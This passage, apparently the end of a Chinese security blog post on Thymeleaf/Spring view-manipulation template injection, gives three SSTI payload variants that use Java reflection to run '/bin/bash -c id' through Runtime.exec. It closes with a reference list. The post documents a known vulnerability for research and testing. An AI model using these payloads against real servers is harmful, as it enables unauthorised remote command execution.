 及相应的 *{expr} 方式：

```
*{new java.util.Scanner(Class.forName("java.lang.Runtime")
.getMethod("exec",T(String[])).invoke(Class.forName("java.lang.Runtime")
.getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"}).getInputStream()).next()}::x
```

用 ${{expr}} 方式的 payload：  

```
${{new java.util.Scanner(Class.forName("java.lang.Runtime")
.getMethod("exec",T(String[])).invoke(Class.forName("java.lang.Runtime")
.getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"}).getInputStream()).next()}}::x
```

及相应的 *{{expr}} 方式：

```
*{{new java.util.Scanner(Class.forName("java.lang.Runtime")
.getMethod("exec",T(String[])).invoke(Class.forName("java.lang.Runtime")
.getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"}).getInputStream()).next()}}::x
```

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPkF2Mf8t4B2re3RX7fpnDagMia9WibQ5bv5OXhicsMfCjxpuULd9lXXeVpg/640?wx_fmt=png)

0xFF 参考文献
---------

[https://mp.weixin.qq.com/s/-KJijVbZGo6W7gLcve9IkQ](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247484151&idx=1&sn=576d7500462df34a08e1569ce9a595d8&scene=21#wechat_redirect)

https://github.com/veracode-research/spring-view-manipulation/

https://www.thymeleaf.org/doc/tutorials/3.0/thymeleafspring.html

https://www.cnblogs.com/hetianlab/p/13679645.html

也欢迎关注鄙人的公众号～

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDaasVgXuX9ic9vzo2A7ybUK8c96BynfRFZiacMeBVJibHfcqEhicJBX6xNvWqfmfZTsZpg017GBHhrxESA/640?wx_fmt=png)

公众号